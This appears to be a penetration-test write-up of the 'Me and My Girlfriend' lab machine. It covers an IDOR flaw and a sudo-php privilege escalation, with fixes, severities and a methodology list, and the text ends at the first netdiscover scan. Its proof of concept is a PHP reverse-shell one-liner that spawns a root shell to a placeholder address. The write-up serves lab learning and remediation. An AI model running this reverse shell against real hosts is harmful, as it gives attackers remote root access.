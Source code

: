 **Vulnerable System**: Me and My Girlfriend
===========================================

**Operating System**: Ubuntu 14.04

**Kernel**: 4.4.0

**Vulnerability Exploited**: Insecure Direct Object Reference (IDOR)

**Exploit Used**: N/A

**Proof of Concept Code**: N/A

**Vulnerability Explained**: In the web application, there is no access control
implemented between different users’ accounts. Therefore other users’ account
pages can be accessed simply by changing ID parameter in the URL.

**Vulnerability fix**: Implement sufficient access control. The user has to be
authorized to access request information. Use something less obvious for the
reference such as randomly generated string instead of incrementing integer.

**Severity**: **Medium**

**Privilege Escalation Vulnerability**: Excessive sudo privileges

**Exploit Used**: N/A

**Proof of Concept Code**: /usr/bin/php -r '\$sock=fsockopen("ip address",
port);exec("/bin/sh -i \<&3 \>&3 2\>\&3");'

**Privilege Escalation Vulnerability Explained:** Regular user had sudo
privileges to execute php commands. With the help of php, operating system
commands can be executed or in this case a reverse shell with root privileges
was spawned.

**Vulnerability fix**: Restrict what regular users can do using sudo according
to the principal of the least privilege.

**Severity**: **High**

Methodology
-----------

-   Host Discovery (netdiscover)

-   Port Scanning (nmap)

-   Web App Vulnerability Scan (nikto)

-   Web Page Enumeration (browser, BurpSuite)

-   Low Privilege Escalation (IDOR, ssh)

-   Privilege Escalation (sudo -l, php)

Reconnaissance
--------------

### Host Discovery (Netdiscover)

lifesfun:\~\# netdiscover -r 192.168.211.0/24
